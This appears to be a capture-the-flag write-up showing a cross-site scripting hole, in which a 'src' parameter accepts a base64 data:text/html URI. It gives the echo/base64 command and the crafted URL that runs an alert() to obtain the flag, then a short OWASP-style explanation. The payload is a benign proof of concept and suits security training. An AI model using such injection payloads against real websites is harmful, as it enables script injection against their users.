





# XSS by url

## Demonstration

You need to find a link on the main page that is missing from the user interface.
When opening a link in the browser, you may notice that the src parameter accesses a resource on the server. If there is access and the path to the data is known, then you can duplicate them on the current page.



For example, an icon for going to the main page.



You can also execute html instructions, for example:



You can call html script, which means that the application can execute any instructions of an attacker.



If you write a script in Base64 to output a message via alert(), we get a flag.

```sh
echo "<script> alert('hello world!'); <script/>" | base64
PHNjcmlwdD4gYWxlcnQoJ2hlbGxvIHdvcmxkIScpOyA8c2NyaXB0Lz4K
```

```html
http://{{IP_HOST}}/?page=media&src=data:text/html;base64,PHNjcmlwdD4gYWxlcnQoJ2hlbGxvIHdvcmxkIScpOyA8c2NyaXB0Lz4K==
```



## Explanation

[XSS](https://owasp.org/www-community/attacks/xss/)

Cross-site scripting (XSS) attacks are a type of embedding in which malicious scripts are embedded on secure and reliable websites. XSS attacks occur when an attacker uses a web application to send malicious code, usually in the form of a browser-side script, to another end user. The disadvantages that allow these attacks to be successfully carried out are quite common and occur wherever a web application uses user input in the output it generates without verifying or encoding it.
